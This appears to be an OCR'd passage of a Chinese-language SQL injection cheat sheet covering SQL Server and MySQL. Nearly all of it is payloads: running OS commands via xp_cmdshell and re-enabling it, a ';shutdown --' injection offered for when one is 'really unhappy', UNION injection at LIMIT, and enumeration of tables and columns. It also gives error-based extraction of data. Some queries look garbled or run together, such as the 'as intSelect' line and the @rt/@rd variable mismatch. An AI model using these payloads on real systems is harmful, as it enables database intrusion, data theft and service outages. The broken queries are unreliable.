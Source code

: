 SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/
DECLARE @result int; EXEC @result = xp_cmdshell ‘dir *.exe’;IF (@result = 0) SELECT 0 ELSE SELECT 1/0
HOST_NAME()
IS_MEMBER (Transact-SQL)
IS_SRVROLEMEMBER (Transact-SQL)
OPENDATASOURCE (Transact-SQL)
INSERT tbl EXEC master..xp_cmdshell OSQL /Q”DBCC SHOWCONTIG”
OPENROWSET (Transact-SQL)  – http://msdn2.microsoft.com/en-us/library/ms190312.aspx

你不能在 SQL Server 的 Insert 语句里使用子查询。

使用 LIMIT（M）或 ORDER（MSO）的注入

SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;

如果注入点在 limit 的第二个参数处，你可以把它注释掉或者使用 union 注入。

停止 SQL Server（S）

当你真的不开心了，可以使用 ‘;shutdown —

在 SQL Server 中启用 xp_cmdshell

默认情况下，在 SQL Server 2005 中 xp_cmdshell 和其他一些存在潜在危险的存储过程都是被禁用的。如果你有 admin 权限就可以启用它们了。

EXEC sp_configure ‘show advanced options’,1
RECONFIGURE

EXEC sp_configure ‘xp_cmdshell’,1
RECONFIGURE

探测 SQL Server 数据库的结构（S）

获取用户定义表

SELECT name FROM sysobjects WHERE xtype = 'U'

获取字段名

SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')

移动记录（S）

修改 WHERE 和使用 NOT IN 或 NOT EXIST

… WHERE users NOT IN (‘First User’, ‘Second User’)

SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members) -- very good one

使用恶劣的小技巧

SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as intSelect p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21

从基于错误的 SQL 注入中快速提取数据的方法（S）

';BEGIN DECLARE @rt varchar(8000) SET @rd=':' 
SELECT @rd=@rd+' '+name FROM syscolumns 
 WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') 
   AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--
